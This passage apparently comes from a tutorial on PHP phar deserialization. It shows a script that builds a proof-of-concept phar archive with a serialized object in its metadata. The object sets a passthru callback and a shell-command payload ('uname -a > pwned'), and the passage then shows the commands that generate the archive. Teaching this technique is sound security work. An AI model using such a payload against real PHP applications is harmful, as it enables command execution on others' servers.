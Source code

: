 Here is the example of creating phar archive.

```php
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: create.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ class VulnerableClass { }
   3   │ // Create a new instance of the Dummy class and modify its property
   4   │ $dummy = new VulnerableClass();
   5   │ $dummy->callback = "passthru";
   6   │ $dummy->fileName = "uname -a > pwned"; //our payload
   7   │ 
   8   │ // Delete any existing PHAR archive with that name
   9   │ @unlink("poc.phar");
  10   │ 
  11   │ // Create a new archive
  12   │ $poc = new Phar("poc.phar");
  13   │ 
  14   │ // Add all write operations to a buffer, without modifying the archive on disk
  15   │ $poc->startBuffering();
  16   │ 
  17   │ // Set the stub
  18   │ $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");
  19   │ 
  20   │ // Add a new file in the archive with "text" as its content
  21   │ $poc["file1"] = "text";
  22   │ $poc["file2"] = "another Text";
  23   │ // Add the dummy object to the metadata. This will be serialized
  24   │ $poc->setMetadata($dummy);
  25   │ 
  26   │ // Stop buffering and write changes to disk
  27   │ $poc->stopBuffering();
  28   │ ?>
```

Then generate phar archive like so.

```bash
❯ ls
create.php  index.php

❯ php --define phar.readonly=0 create.php       

❯ ls
create.php  index.php  poc.phar
```

![img3][img3]
<p align="center"><i>Figure 3: Phar hexdump</i></p>
